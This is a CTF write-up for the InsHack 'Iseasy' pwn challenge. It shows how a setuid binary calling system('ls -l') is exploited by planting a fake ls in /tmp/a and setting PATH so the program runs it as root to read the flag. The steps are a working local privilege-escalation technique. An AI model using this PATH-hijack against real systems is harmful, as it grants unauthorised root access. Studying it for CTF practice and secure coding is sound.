 ```yaml
---
title: "InsHack -- Iseasy Writeup"
categories:
  - InsHack
tags:
  - CTF
  - pwn
---
```


> My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh <you_ssh_user>@pwn1.ctf.insecurity-insa.fr

<div class="notice--info">
<strong>Challenge:</strong>
<ul>
<li><strong>Name</strong>:     Iseasy</li>
<li><strong>Category</strong>: pwn</li>
<li><strong>Points</strong>:   75</li>
<li><strong>Solves</strong>:   127</li>
<li><strong>Given</strong>:    `Iseasy`, `vuln.c`</li>
</ul>
</div>


# Solution
The whole source code is just this litle snippet:
```c
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. <br>
Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?

Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable.<br>
That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

So the solution goes something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` it should work:
```bash
export PATH=/tmp/a
./vuln
```

**IT WORKED!**

